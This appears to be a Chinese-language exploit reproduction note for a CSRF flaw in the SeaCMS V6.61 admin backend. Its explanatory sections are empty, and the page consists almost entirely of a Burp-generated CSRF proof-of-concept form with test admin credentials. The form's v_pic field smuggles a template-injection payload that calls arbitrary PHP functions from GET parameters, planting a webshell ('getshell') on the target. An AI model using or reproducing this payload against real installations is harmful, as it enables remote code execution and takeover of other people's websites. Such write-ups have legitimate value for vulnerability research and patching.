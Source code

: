 Seacms V6.61 后台csrf
=====================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`http://www.0-sec.org:10089/backend/`，用户名和密码为admin \| admin

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <!-- adjust action to your url -->
        <form action="http://www.0-sec.org/seacms/backend/admin_video.php?action=save&acttype=add" method="POST">
          <input type="hidden" name="v&#95;commend" value="0" />
          <input type="hidden" name="v&#95;name" value="getshell" />
          <input type="hidden" name="v&#95;enname" value="ceshi" />
          <input type="hidden" name="v&#95;color" value="&#35;FF0000" />
          <input type="hidden" name="v&#95;type" value="5" />
          <input type="hidden" name="v&#95;state" value="5" />
          <input type="hidden" name="v&#95;pic" value="{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}" />
          <input type="hidden" name="v&#95;spic" value="" />
          <input type="hidden" name="v&#95;gpic" value="" />
          <input type="hidden" name="v&#95;actor" value="" />
          <input type="hidden" name="v&#95;director" value="" />
          <input type="hidden" name="v&#95;commend" value="0" />
          <input type="hidden" name="v&#95;note" value="" />
          <input type="hidden" name="v&#95;tags" value="" />
          <input type="hidden" name="select3" value="" />
          <input type="hidden" name="v&#95;publishyear" value="" />
          <input type="hidden" name="select2" value="" />
          <input type="hidden" name="v&#95;lang" value="" />
          <input type="hidden" name="select1" value="" />
          <input type="hidden" name="v&#95;publisharea" value="" />
          <input type="hidden" name="select4" value="" />
          <input type="hidden" name="v&#95;ver" value="" />
          <input type="hidden" name="v&#95;hit" value="0" />
          <input type="hidden" name="v&#95;monthhit" value="0" />
          <input type="hidden" name="v&#95;weekhit" value="0" />
          <input type="hidden" name="v&#95;dayhit" value="0" />
          <input type="hidden" name="v&#95;len" value="" />
          <input type="hidden" name="v&#95;total" value="" />
          <input type="hidden" name="v&#95;nickname" value="" />
          <input type="hidden" name="v&#95;company" value="" />
          <input type="hidden" name="v&#95;tvs" value="" />
          <input type="hidden" name="v&#95;douban" value="" />
          <input type="hidden" name="v&#95;mtime" value="" />
          <input type="hidden" name="v&#95;imdb" value="" />
          <input type="hidden" name="v&#95;score" value="" />
          <input type="hidden" name="v&#95;scorenum" value="" />
          <input type="hidden" name="v&#95;longtxt" value="" />
          <input type="hidden" name="v&#95;money" value="0" />
          <input type="hidden" name="v&#95;psd" value="" />
          <input type="hidden" name="v&#95;playfrom&#91;1&#93;" value="" />
          <input type="hidden" name="v&#95;playurl&#91;1&#93;" value="" />
          <input type="hidden" name="m&#95;downfrom&#91;1&#93;" value="" />
          <input type="hidden" name="m&#95;downurl&#91;1&#93;" value="" />
          <input type="hidden" name="v&#95;content" value="" />
          <input type="hidden" name="Submit" value="�&#161;&#174;�&#174;&#154;�&#143;&#144;浜&#164;" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
